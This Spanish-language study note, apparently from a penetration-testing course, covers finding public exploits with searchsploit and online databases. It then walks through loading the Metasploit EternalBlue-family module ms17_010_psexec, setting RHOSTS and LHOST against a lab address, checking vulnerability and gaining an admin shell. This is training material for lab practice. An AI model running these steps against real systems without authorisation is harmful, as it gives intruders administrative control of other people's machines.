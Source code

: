 Una vez que identificamos los servicios que se ejecutan en los puertos identificados desde nuestro escaneo de Nmap, el primer paso es ver si alguna de las aplicaciones/servicios tiene algún exploit público.


# Entontrar Exploits Publicos
  
Muchas herramientas pueden ayudarnos a buscar exploits públicos para las diversas aplicaciones y servicios que podamos encontrar durante la fase de enumeración. Una forma de hacerlo es buscar en Google el nombre de la aplicación con el **exploit** para ver si obtenemos algún resultado. 

![[Pasted image 20250314203921.png]]

## searchsploit
Una herramienta conocida para este propósito es searchsploit, que podemos utilizar para buscar vulnerabilidades/exploits públicos para cualquier aplicación.

Instalación
```shell-session
sudo apt install exploitdb -y
```

Luego, podemos usar searchsploit para buscar una aplicación específica por su nombre, de la siguiente manera:
![[Pasted image 20250314205248.png]]
También podemos utilizar bases de datos de exploits en línea para buscar vulnerabilidades, como 
Exploit DB
Rapid7 DB 
Vulnerability Lab.

# Introducción a  Metasploit 

correr Metasploit
```shell-session
msfconsole
```

![[Pasted image 20250314210014.png]]
Una vez que Metasploit se esté ejecutando, podemos buscar nuestra aplicación objetivo con el comando "search exploit". Por ejemplo, podemos buscar la vulnerabilidad SMB que identificamos anteriormente:

![[Pasted image 20250314210214.png]]Consejo: La **búsqueda** puede aplicar filtros complejos, como buscar cve:2009 tipo:exploit. Ver todos los filtros con ayuda de búsqueda.


Encontramos un exploit para este servicio. Podemos usarlo copiando su nombre completo y usando USE:
```shell-session
msf6 > use exploit/windows/smb/ms17_010_psexec
```

![[Pasted image 20250314210550.png]]

Antes de ejecutar el exploit, debemos configurar sus opciones. Para ver las opciones disponibles, podemos usar el comando «show options»:
![[Pasted image 20250314210839.png]]

Asignamos los paramentos requeridos, algunos ya vienen predefinidos 
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```
![[Pasted image 20250314212453.png]]


Una vez configuradas ambas opciones, podemos iniciar la explotación. Sin embargo, antes de ejecutar el script, podemos realizar una comprobación para asegurarnos de que el servidor sea vulnerable:
![[Pasted image 20250314212615.png]]

Como podemos ver, el servidor es vulnerable. Tenga en cuenta que no todos los exploits de Metasploit Framework admiten la función de comprobación. Finalmente, podemos usar el comando "run" o "exploit" para ejecutar el exploit:
![[Pasted image 20250314213054.png]]
As we can see, we have been able to gain admin access to the box and used the `shell` command to drop us into an interactive shell.